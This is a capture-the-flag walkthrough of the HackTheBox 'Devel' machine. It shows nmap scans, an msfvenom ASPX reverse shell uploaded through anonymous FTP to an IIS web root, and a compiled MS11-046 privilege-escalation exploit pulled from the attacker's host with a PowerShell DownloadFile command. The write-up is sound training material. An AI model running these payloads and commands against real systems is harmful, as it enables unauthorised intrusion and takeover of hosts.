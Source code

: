 ```yaml
---
title: Devel
date: 2022-06-11 15:08:03
author: 0xma
img: /medias/images/devel/Devel.png
categories: 
  - windows
  - hackthebox
tags:
  - ctf
  - htb-devel
  - hackthebox
  - webshell
  - aspx
  - meterpreter
  - metasploit
  - msfvenom
  - ms11-046
  - ftp
  - nishang
  - nmap
  - watson
  - smbserver
  - upload
  - windows
  - oscp-like
---
```

# [Easy] Devel

![Untitled](/medias/images/devel/Devel.png)

## Reconnaissance

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

```bash
sudo nmap -sC -sV -O -oA nmap/initial <IP>
```

- **sC**: run default nmap scripts
- **sV**: detect service version
- **O**: detect OS
- **oA**: output all formats and store in file *nmap/initial*

We get back the following result showing that port 80 is open with Microsoft IIS web server running on it and port 21 is open with FTP running on it.

![Untitled](/medias/images/devel/Untitled%201.png)

Before we start investigating the open ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

```bash
sudo nmap -sC -sV -O -p- -oA nmap/full <IP>
```

We get back the same results as above.

Similarly, we run an nmap scan with the **sU** flag enabled to run a UDP scan.

```bash
sudo nmap -sU -O -oA nmap/udp <IP>
```

We get back the following result. As can be seen, the top 1000 ports are closed.

Our only avenue of attack is port 80 & port 21. The nmap scan did show that FTP allowed anonymous logins and so we’ll start there.

## Enumeration

Anonymous File Transfer Protocol (FTP) allow anyone to log into the FTP server with the username “anonymous” and any password to access the files on the server.

![Untitled](/medias/images/devel/Untitled%202.png)

Try navigating to these files in the browser.

![Untitled](/medias/images/devel/Untitled%203.png)

The FTP server seems to be in the same root as the HTTP server. Why is that interesting? Well, if I upload a reverse shell in the FTP server, I might be able to run it through the web server.

```bash
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=<YourIP> LPORT=4242 > revshell.aspx
```

Our nmap scan showed that the web server is Microsoft IIS version 7.5. IIS web server generally either executes ASP or ASPX (ASP.NET). Since the version is 7.5, further googling tells us that it likely supports ASPX.

Upload the file on the ftp server.

![Untitled](/medias/images/devel/Untitled%204.png)

Go back to your listener to see if the shell connected back.

![Untitled](/medias/images/devel/Untitled%205.png)

Perfect! We have a shell and it’s running as **iis apppool\web**.

Change the directory to the **Users** directory where the flags are stored.

Try to access the **babis** and **Administrator** user directories.

![Untitled](/medias/images/devel/Untitled%206.png)

We don’t have permission, so let’s learn more about the operating system to see if we can escalate privileges.

![Untitled](/medias/images/devel/Untitled%207.png)

We’re on a Microsoft Windows 7 build 7600 system. It’s fairly old and does not seem to have been updated, so it’s probably vulnerable to a bunch of exploits.

## Privilege Escalation

Let’s use google to look for [exploits](https://www.exploit-db.com/exploits/40564).

![Untitled](/medias/images/devel/Untitled%208.png)

The first two exploits displayed allow us to escalate privileges. The second exploit (MS11–046), has documentation on how to compile the source code, so we’ll go with that one.

Get the **EDB-ID** from the web page, so that we can use it to find the exploit in **searchsploit**.

![Untitled](/medias/images/devel/Untitled%209.png)

Update **searchsploit** to ensure you have all the latest vulnerabilities.

```bash
searchsploit -u
```

Use the **m** flag to look for the exploit **40564** and copy it to the current directory.

```bash
searchsploit -m 40564
```

![Untitled](/medias/images/devel/Untitled%2010.png)

Now, we need to compile the exploit. The compilation instructions are in the [exploitdb webpage](https://www.exploit-db.com/exploits/40564).

If you don’t have mingw-w64 installed, install it.

```bash
sudo apt-get update && sudo apt-get install mingw-w64
```

Compile it using the listed command.

```bash
i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
```

Alright, we have a compiled exploit. Now what is left is to transfer the exploit to the target (Devel) machine.

Start up a server on the attack (Kali) machine.

```bash
python2 -m SimpleHTTPServer 80
```

Netcat doesn’t seem to be installed on Windows, but powershell is. So, we’ll use it to transfer the file from our server to a directory we can write to.

```bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<YourIP>/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
```

![Untitled](/medias/images/devel/Untitled%2011.png)

![Untitled](/medias/images/devel/Untitled%2012.png)

![Untitled](/medias/images/devel/Untitled%2013.png)
